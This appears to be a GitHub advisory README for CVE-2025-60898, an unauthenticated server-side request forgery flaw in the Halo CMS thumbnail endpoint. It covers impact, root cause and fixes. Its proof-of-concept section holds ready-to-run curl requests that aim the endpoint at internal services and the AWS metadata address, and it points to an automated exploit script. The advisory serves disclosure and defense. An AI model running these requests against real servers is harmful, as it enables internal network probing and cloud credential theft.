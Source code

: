 # CVE-2025-60898: Unauthenticated SSRF in Halo CMS Thumbnail Service

<p align="left">
  <a href="https://twitter.com/abdulr7mann">
    <img src="https://img.shields.io/twitter/follow/abdulr7mann" alt="Twitter">
  </a>
</p>

- **Published:** 2025-10-27
- **Reporter:** @abdulr7mann
- **Severity:** Critical (CVSS 9.1)

---

## Summary

Halo CMS versions 2.21 and likely all 2.x releases contain an unauthenticated Server-Side Request Forgery vulnerability in the thumbnail generation service. The `isAccessible()` method in `ThumbnailEndpoint.java` performs server-side HTTP requests to user-controlled URLs without validation, enabling anonymous attackers to probe internal networks, access cloud metadata services, and exfiltrate sensitive information.

- **CVE ID:** CVE-2025-60898
- **CWE:** CWE-918 (Server-Side Request Forgery)
- **CVSS v3.1:** 9.1 Critical — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`
- **Affected Versions:** Halo CMS v2.21 (confirmed), likely all 2.x
- **Authentication Required:** None (publicly accessible)

---

## Impact

- Unauthenticated internal network reconnaissance and port scanning
- Access to cloud metadata servers (AWS, GCP, Azure credential theft)
- Internal service discovery and enumeration
- Information disclosure via HTTP response codes and redirects
- Potential access to internal admin panels and databases

---

## Affected Components

- **Product:** Halo CMS
- **Versions:** v2.21 (confirmed), suspected all 2.x series
- **Component:** `application/src/main/java/run/halo/app/core/endpoint/theme/ThumbnailEndpoint.java:75`
- **Vulnerable Method:** `isAccessible(ServerRequest request, URI uri)`
- **Endpoint:** `GET /apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri`
- **RBAC Configuration:** Public access via `role-template-anonymous.yaml`

---

## Technical Details

The `isAccessible()` method accepts arbitrary URIs via the `uri` query parameter and performs HTTP GET requests with `Range: bytes=0-0` headers to verify resource accessibility. No validation is performed on the target URL, allowing requests to private IP addresses (127.0.0.1, 10.0.0.0/8, 192.168.0.0/16), cloud metadata endpoints (169.254.169.254), and internal services. HTTP response codes are returned to the client, enabling service enumeration.

**Root Cause:** Missing URL validation, no private IP filtering, public endpoint access without authentication.

---

## Proof of Concept

**Setup:**
```bash
docker run --add-host=host.docker.internal:host-gateway -d -p 8090:8090 halohub/halo:2.21
python3 -m http.server 8888  # Canary server
```

**Exploit (no authentication required):**
```bash
# SSRF to canary - observe GET request with Range header
curl "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://host.docker.internal:8888/test&size=s"

# Internal service access
curl "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://127.0.0.1:8090/actuator/health&size=s"

# AWS metadata (if deployed on EC2)
curl "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://169.254.169.254/latest/meta-data/&size=s"
```

**Automated PoC:**
```bash
python3 CVE-2025-60898.py http://localhost:8090
python3 CVE-2025-60898.py http://localhost:8090 --target "http://internal-service/"
```

See [detailed technical analysis](deep-technical-analysis.md) for comprehensive exploitation methodology.

---

## Remediation

**Immediate Actions:**
- Update to latest, or:
- Remove public access to `/thumbnails/-/via-uri` endpoint
- Require authentication for thumbnail generation features
- Deploy network-level egress filtering as temporary mitigation

**Recommended Fixes:**
- Implement strict URL allowlist (approved CDN domains only)
- Block all private IP ranges (RFC 1918, loopback, link-local)
- Validate resolved IP addresses before and after DNS lookup (prevent DNS rebinding)
- Restrict URL schemes to HTTPS only
- Remove RBAC rule granting anonymous access in `role-template-anonymous.yaml`
- Implement request timeouts and response size limits
- Add security logging for all thumbnail URL requests

---

## References

- [Technical Analysis & Exploitation Guide](deep-technical-analysis.md)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

---
